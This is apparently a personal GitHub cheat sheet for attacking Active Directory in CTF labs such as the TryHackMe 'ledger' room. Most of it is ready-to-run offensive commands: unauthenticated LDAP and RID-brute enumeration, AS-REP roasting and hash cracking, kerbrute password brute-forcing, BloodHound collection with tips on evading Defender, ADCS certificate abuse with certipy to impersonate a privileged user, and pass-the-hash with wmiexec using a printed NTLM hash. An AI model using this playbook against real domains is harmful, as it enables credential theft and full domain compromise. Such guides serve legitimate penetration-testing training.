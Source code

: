 # AD Exploitation Guide

This is a limited guide; AD exploitation is a vast topic. But the path of attack starts narrow and expands. When approaching a AD environment, say if you are just starting with an IP address and have done a scan showing the thousands of ports that an domain computer, especially a CA (which we will assume is the default case for a small CTF) then what is the next step?

Sources:
- the ledger THM room https://tryhackme.com/room/ledger
- https://notes.incendium.rocks/pentesting-notes/windows-pentesting/enumerating-users-no-credentials
- https://wadcoms.github.io/ (often the command syntax is out of date / in valid)

## 0. Enumerating AD - getting distinguished names etc

- `enum4linux -a 10.10.128.189` is an old staple, but seems only partially functional these days
- `nmap -n -sV --script "ldap* and not brute" -p 389 10.10.128.189` will return a bunch of info, importantly including distinguished names
- `ldapsearch -x -h 10.10.128.189 -b "dc=thm,dc=local"` using a name space from the above (here `dc=thm,dc=local`). Super finicky, and might not work at all. If it does work, its efficacy will depend on the namespace (query?) you use so maybe try different combinations. Can produce a tonne of data.

## 1. Find a user

- You might be lucky and some info is on a website, or in a public share, ftp etc.
- If not, try sid iteration: this iterates through the predictable SID/RID range of a domain, looking for users:
    - `python3.9 /opt/impacket/examples/lookupsid.py thm/anon@labyrinth.thm.local` using an anonymous user (requires finding the domain name and host name)
    - `crackmapexec smb labyrinth.thm.local -u anonymous -p "" --rid-brute 10000`. On the attack box, crackmapexec can be installed with `snap install crackmapexec`

## 2. Finding a password

- If you are lucky, one of the earlier enumeration searches might contain data. For example often in CTF contexts, its been the case that something like `Please change it: CHANGEME2023!` is in the description of a user (e.g. in the ledger room this was the case), using the data from something like ldapsearch
- If you have a list of uses, look for asrep roastable tokens with `python3.9 /opt/impacket/examples/GetNPUsers.py THM/ -usersfile users.txt -dc-ip 10.10.128.189 -format hashcat -outputfile hashes`. These can be cracked with `-m 18200`
- All else failing, you can try bruting a user account with `./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman`. Note kerbrute has a linux version and windows: https://github.com/ropnop/kerbrute. It can be used for some of the earlier steps, and password spraying, but I've never had much success.

## 3. Credentialed enumeration

With a username/password combo, the path forward opens up. I generally do two things, small then large:

- get a proper domain dump, complete with browsable html files using `python3.9 ldapdomaindump.py 10.10.128.189 -u THM\\IVY_WILLIS -p CHANGEME2023!`. This is much easier to navigate than raw LDAP output, and can help for seeing user groups and other notes dotted around.
- get a bloodhound dump (see below)

### Bloodhound

There are a few ways to get the enumeration information (a couple of zip files) required for bloodhound overviews.

- done remotely with python, you can avoid defender problems: `bloodhound-python -d thm.local -v --zip -c All -u IVY_WILLIS -p 'CHANGEME2023!' --dns-tcp -ns 10.10.128.189`.
- on the box with sharphound (note this gets picked up by defender, best when AV is disabled): https://github.com/SpecterOps/SharpHound/releases - just unzip the zip, and copy SharpHound.exe (or .ps1?) to the target, then run with -c All to get a zip of data you will need to exfil

Note bloodhound CE might be the more supported interface for viewing, and runs from docker: https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart

## Escalation Special paths

TODO, an expandable section. Really there is almost no limit here. SPNs should be done when next encountered

- Exploiting misconfigured certs:
  - `python3.9 -m pip install certipy-ad`
  - use creds to find misconfigured certs `certipy find -u SUSANNA_MCKNIGHT@local.thm -p 'CHANGEME2023!' -dc-ip 10.10.128.189 -vulnerable`
  - if found enroll a vulnerable cert for a target, high priv user: `certipy req -username SUSANNA_MCKNIGHT  -password 'CHANGEME2023!' -ca thm-LABYRINTH-CA -target labyrinth.thm.local -template ServerAuth -upn bradley_ortiz@thm.local -dc-ip 10.10.128.189 -debug`
  - then use that cert to create a llvm hash: `certipy auth -pfx bradley_ortiz.pfx -dc-ip 10.10.128.189 -debug`
  - finally with those hashes, gain access. Evil-winrm is an option (might be deprecated), but impackets wmi-exec works well too: `python3.9 /opt/impacket/examples/wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:16ec31963c93240962b7e60fd97b495d thm.local/bradley_ortiz@10.10.128.189`

